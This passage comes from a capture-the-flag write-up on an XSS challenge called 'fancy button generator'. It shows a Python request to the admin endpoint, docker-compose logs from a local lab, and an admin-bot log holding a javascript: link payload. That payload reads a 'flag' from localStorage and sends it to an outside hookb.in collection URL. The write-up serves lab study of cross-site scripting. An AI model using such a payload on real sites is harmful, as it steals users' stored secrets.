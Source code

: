 ```python
r = s.get(host + f"admin?title={name}&link={link}")
print(r.text)
```

But this won't work... Time to try it locally. 

### docker

After running `docker-compose build` we can use:

```bash
docker-compose up
Starting fancy_button_generator_admin2_1 ... done
Starting fancy_button_generator_chall_1  ... done
Starting fancy_button_generator_admin3_1 ... done
Starting fancy_button_generator_admin_1  ... done
Attaching to fancy_button_generator_chall_1, fancy_button_generator_admin2_1, fancy_button_generator_admin_1, fancy_button_generator_admin3_1
admin2_1  | xssbot listening on port 80
chall_1   |  * Serving Flask app 'server' (lazy loading)
chall_1   |  * Environment: production
chall_1   |    WARNING: This is a development server. Do not use it in a production deployment.
chall_1   |    Use a production WSGI server instead.
chall_1   |  * Debug mode: off
chall_1   |  * Running on all addresses.
chall_1   |    WARNING: This is a development server. Do not use it in a production deployment.
chall_1   |  * Running on http://172.18.0.5:5000/ (Press CTRL+C to quit)
admin3_1  | xssbot listening on port 80
admin_1   | xssbot listening on port 80
```

Then I started all the Time to try our payloads, and look for errors! 

*Note: Be sure to change the `host` variable in the script*

After executing the payload, and checking hookbin:

![](./nada.png)

Well... that didn't work. Why?

```bash
admin3_1  | vistiting: {
admin3_1  |   title: '...',
admin3_1  |   link: "javascript:new Image().src='https://hookb.in/QJJEJLpxQ0i8mNzzmJ03?c='+window.localStorage.getItem('flag')"
admin3_1  | } []
admin3_1  | Fontconfig warning: "/etc/fonts/fonts.conf", line 100: unknown element "blank"
admin3_1  | [0809/202810.380784:ERROR:bus.cc(393)] Failed to connect to the bus: Failed to connect to socket /var/run/dbus/system_bus_socket: No such file or directory
admin3_1  | 
admin3_1  | DevTools listening on ws://127.0.0.1:44595/devtools/browser/5142a2c8-c6c0-4c0c-9ea5-c78c0946cbcd
```